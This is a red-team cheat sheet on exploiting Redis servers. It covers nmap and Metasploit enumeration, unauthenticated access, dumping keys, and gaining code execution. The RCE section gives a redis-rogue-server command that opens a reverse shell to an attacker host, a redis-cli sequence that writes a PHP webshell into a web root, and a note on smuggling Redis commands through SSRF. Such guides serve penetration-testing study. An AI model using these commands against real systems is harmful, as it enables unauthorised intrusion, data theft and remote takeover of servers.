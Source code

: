 # Redis Exploitation


### Basic Information
Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker (from [here](https://redis.io/topics/introduction)). By default and commonly Redis uses a plain-text based protocol, but you have to keep in mind that it can also implement ssl/tls.

### Default port: 6379
```text
PORT     STATE SERVICE  VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
```

### Automatic Enumeration
```bash
nmap --script redis-info -sV -p 6379 <IP>
msf> use auxiliary/scanner/redis/redis_server
```

### Manual Enumeration
* Banner

Redis is a text based protocol, you can just send the command in a socket and the returned values will be readable. Also remember that Redis can run using ssl/tls (but this is very weird).

```bash
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools
```

The first command you could try is `info`. It may return output with information of the Redis instance or something like the following is returned:

```bash
-NOAUTH Authentication required.
```
> In this last case, this means that you need valid credentials to access the Redis instance.


### Redis Authentication
By default Redis can be accessed without credentials. However, it can be configured to support only password, or username + password.

It is possible to set a password in `redis.conf` file with the parameter `requirepass` or temporary until the service restarts connecting to it and running: `config set requirepass p@ss$12E45`.
Also, a username can be configured in the parameter `masteruser` inside the redis.conf file.

```bash
AUTH <username> <password>

#Valid credentials will be responded with: +OK
```

### Authenticated enumeration
If the Redis instance is accepting anonymous connections or you found some valid credentials, you can start enumerating the service with the following commands:

```bash
INFO
[ ... Redis response with info ... ]
client list
[ ... Redis response with connected clients ... ]
CONFIG GET *
[ ... Get config ... ]
```

Other Redis commands can be found [here](https://redis.io/topics/data-types-intro) and [here](https://lzone.de/cheat-sheet/Redis).


### Dumping Database
Inside Redis the databases are numbers starting from 0. You can find if anyone is used in the output of the command info inside the "Keyspace" chunk:

![db](https://github.com/Mehdi0x90/Red-Team/assets/17106836/6ddcac48-fd79-403d-b33f-4055979dfda0)


Or you can just get all the keyspaces (databases) with:

```bash
INFO keyspace
```

In that example the database 0 and 1 are being used. Database 0 contains 4 keys and database 1 contains 1. By default Redis will use database 0. In order to dump for example database 1 you need to do:

```bash
SELECT 1
[ ... Indicate the database ... ]
KEYS * 
[ ... Get Keys ... ]
GET <KEY>
[ ... Get Key ... ]
```

## Redis RCE
### Interactive Shell
[redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) can automatically get an interactive shell or a reverse shell in Redis(<=5.0.5).

```bash
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```

### PHP Webshell
Info from [here](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the path of the Web site folder:

```bash
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

### SSRF talking to Redis
If you can send clear text request to Redis, you can communicate with it as Redis will read line by line the request and just respond with errors to the lines it doesn't understand:

```bash
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```

Therefore, if you find a SSRF vuln in a website and you can control some headers (maybe with a CRLF vuln) or POST parameters, you will be able to send arbitrary commands to Redis.






































































